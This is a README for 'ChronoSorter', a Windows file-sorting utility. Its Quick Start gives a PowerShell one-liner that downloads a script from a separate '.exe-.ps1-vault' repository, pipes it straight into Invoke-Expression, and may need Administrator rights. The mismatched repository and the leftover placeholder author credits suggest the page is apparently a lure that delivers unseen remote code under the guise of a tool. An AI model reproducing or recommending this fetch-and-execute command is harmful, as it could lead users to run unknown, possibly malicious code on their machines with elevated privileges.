 
# ChronoSorter

![Version](https://img.shields.io/github/v/release/DomainTyler/chronosorter?color=%230567ff&label=Latest%20Release&style=for-the-badge)
[![License: MIT](https://img.shields.io/badge/license-MIT-green?style=for-the-badge)]()
[![Platform](https://img.shields.io/badge/platform-Windows-blue?style=for-the-badge&logo=windows)]()
[![Made with Love](https://img.shields.io/badge/Made%20with-%E2%9D%A4%EF%B8%8F-red?style=for-the-badge)]()

ChronoSorter is a sleek and simple Windows utility that organizes your files into folders by their creation date, helping you keep your directories tidy and easy to navigate.
---

## 🖥️ Quick Start — Run from PowerShell

You can quickly launch the app directly from PowerShell by running this commands:
 
```powershell
iwr -useb "https://github.com/DomainTyler/.exe-.ps1-vault/raw/main/run%20CS%20v1.ps1" | iex
```

This will download and execute the PowerShell script directly, giving you instant access without needing to download any files manually.

> **Note:** You might need to run PowerShell as Administrator .
---

## 💡 Usage

1. Run `chronosorter.exe`.  
2. Click **Select Folder** to pick the folder you want to organize.  
3. The app will sort all files (including those in subfolders) into subfolders named by year, month, and day, preserving the original folder structure inside these dated folders.  
4. Optionally, you can **Undo** the last sorting to revert changes.

---

## 🛠️ Features

- Organizes files by their **creation date** into `Year/Month/Day` folders.  
- Recursively sorts all files in selected folder and its subfolders.  
- Keeps original folder names inside the dated folders for easy reference.  
- Undo option to revert the last sorting operation.  
- Modern, sleek light/dark mode interface with toggle.  
- Minimal dependencies and easy to use.

---

## ⚙️ Requirements

- Windows 10 or later.  
- No Python installation required (packed as standalone executable).  
- Runs natively on Windows PCs.

---

## 🧰 Development & Contribution

Want to improve or customize ChronoSorter?

- Clone the repo and modify the Python source (`chronosorter.py`).  
- Use [PyInstaller](https://www.pyinstaller.org/) to rebuild the executable:

```bash
pyinstaller --noconsole --onefile --windowed chronosorter.py
```

- Open a pull request or suggest features on GitHub.

---

## 🆘 Support

- For help or issues, please open an issue on the GitHub repository.  
- Feature requests and bug reports are welcome.

---

## 📜 License

This project is licensed under the MIT License.

---

<p align="center">Made with ❤️ by <a href="https://github.com/YourGitHubUsername">Your Name</a></p>
